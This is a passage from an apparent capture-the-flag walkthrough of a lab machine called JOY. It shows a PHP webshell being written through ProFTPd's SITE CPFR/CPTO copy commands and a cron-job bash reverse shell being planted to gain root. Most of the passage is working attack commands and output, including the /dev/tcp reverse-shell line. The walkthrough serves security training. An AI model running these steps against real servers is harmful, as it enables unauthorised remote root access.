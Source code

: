 
## Exploitation

### ProFTPd Service

As I have mounted the FTP resource to our attacking machine, simply I redirect a simple webshell to the FTP's home directory, and then copy the webshell to the webroot with netcat, as shown below: 

``` bash
root@kali:~$ echo '<?php passthru($_REQUEST["cmd"]); ?>' > /mnt/ftp/z.php
root@kali:~$ nc 192.168.179.133 21
220 The Good Tech Inc. FTP Server
SITE CPFR /home/ftp/z.php
350 File or directory exists, ready for destination name
SITE CPTO /var/www/tryingharderisjoy/z.php
250 Copy successful
quit
221 Goodbye.
```
I requested the webshell by running the **ls -la** command, and we see that this was written with root permissions.

``` bash
root@kali:~$ curl -s 'http://192.168.179.133/z.php?cmd=ls%20-la'
total 28
drwxr-xr-x 3 www-data www-data 4096 Jul  8 11:31 .
drwxr-xr-x 3 root     root     4096 Jan 27  2019 ..
drwxr-xr-x 8 www-data www-data 4096 Jan  6  2019 ossec
-rw-r--r-- 1 root     root       37 Jul  8 11:31 z.php
```

Having this in mind we create a cron job with a bash reverse shell that it will execute every minute and then we redirect it to the mounted ftp directory.

``` bash
root@kali:~$ echo -e '* * * * * root bash -c "bash -i >& /dev/tcp/192.168.179.1/443 0>&1"\n' > /mnt/ftp/sysstatus
```
After we transfer it to the **/etc/cron.d/** directory, as shown below:

``` bash
root@kali:~$ nc 192.168.179.133 21
220 The Good Tech Inc. FTP Server
SITE CPFR /home/ftp/sysstatus
350 File or directory exists, ready for destination name
SITE CPTO /etc/cron.d/sysstatus
250 Copy successful
quit
221 Goodbye.
```
We set up a netcat listener on port 443 and after a minute we have a root shell.

``` bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.133] 50138
bash: cannot set terminal process group (5051): Inappropriate ioctl for device
bash: no job control in this shell
root@JOY:~# id
uid=0(root) gid=0(root) groups=0(root)
root@JOY:~# uname -a
Linux JOY 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64 GNU/Linux
root@JOY:~# cat proof.txt
Never grant sudo permissions on scripts that perform system functions!
```

